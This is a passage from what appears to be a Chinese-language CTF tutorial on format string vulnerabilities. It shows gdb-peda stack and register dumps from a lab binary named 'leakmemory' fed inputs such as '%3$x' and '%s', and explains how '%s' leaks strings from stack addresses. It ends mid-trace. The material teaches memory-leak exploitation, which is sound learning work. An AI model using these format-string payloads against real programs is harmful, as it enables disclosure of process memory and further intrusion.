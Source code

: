 ```c++


[------------------------------------stack-------------------------------------]
0000| 0xfff5610c --> 0x804922d (<main+119>:     add    esp,0x10)
0004| 0xfff56110 --> 0xfff56120 ("%3$x")
0008| 0xfff56114 --> 0xfff56120 ("%3$x")
0012| 0xfff56118 --> 0xf7fa9990 --> 0x0
0016| 0xfff5611c --> 0x80491d1 (<main+27>:      add    ebx,0x2e2f)
0020| 0xfff56120 ("%3$x")
0024| 0xfff56124 --> 0xc30000
0028| 0xfff56128 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0xfff56120 "%3$x") at printf.c:28
28      in printf.c
gdb-peda$ c
Continuing.
80491d1[Inferior 1 (process 70) exited normally]
```

#### 获取栈变量对应字符串
此外, 我们还可以利用`%s`来获得栈变量对应的字符串. 这里还是使用上面的程序进行`GDB`调试. 在第二次执行`printf`函数的时候, 确实是将`0xc30000`处的变量视为字符串变量, 输出了其数值所对应的地址处的字符串.

```c++
gdb-peda$ b printf
Breakpoint 1 at 0x8049070
gdb-peda$ r
Starting program: /ctf/work/leakmemory
%s
[----------------------------------registers-----------------------------------]
EAX: 0x804a00b ("%08x.%08x.%08x.%s\n")
EBX: 0x804c000 --> 0x804bf14 --> 0x1
ECX: 0x0
EDX: 0xf7f66000 --> 0x1ead6c
ESI: 0xf7f66000 --> 0x1ead6c
EDI: 0xf7f66000 --> 0x1ead6c
EBP: 0xff8d3428 --> 0x0
ESP: 0xff8d338c --> 0x804921e (<main+104>:      add    esp,0x20)
EIP: 0xf7dcf340 (<__printf>:    endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7dcf33b <__fprintf+27>:   add    esp,0x1c
   0xf7dcf33e <__fprintf+30>:   ret
   0xf7dcf33f:  nop
=> 0xf7dcf340 <__printf>:       endbr32
   0xf7dcf344 <__printf+4>:     call   0xf7ec2b0d <__x86.get_pc_thunk.ax>
   0xf7dcf349 <__printf+9>:     add    eax,0x196cb7
   0xf7dcf34e <__printf+14>:    sub    esp,0xc
   0xf7dcf351 <__printf+17>:    lea    edx,[esp+0x14]
[------------------------------------stack-------------------------------------]
0000| 0xff8d338c --> 0x804921e (<main+104>:     add    esp,0x20)
0004| 0xff8d3390 --> 0x804a00b ("%08x.%08x.%08x.%s\n")
0008| 0xff8d3394 --> 0x1
0012| 0xff8d3398 ("\"\"\"\"\377\377\377\377\260\063\215\377\260\063\215\377\220i\372\367ё\004\b%s")
0016| 0xff8d339c --> 0xffffffff
0020| 0xff8d33a0 --> 0xff8d33b0 --> 0x7325 ('%s')
0024| 0xff8d33a4 --> 0xff8d33b0 --> 0x7325 ('%s')
0028| 0xff8d33a8 --> 0xf7fa6990 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0x804a00b "%08x.%08x.%08x.%s\n") at printf.c:28
```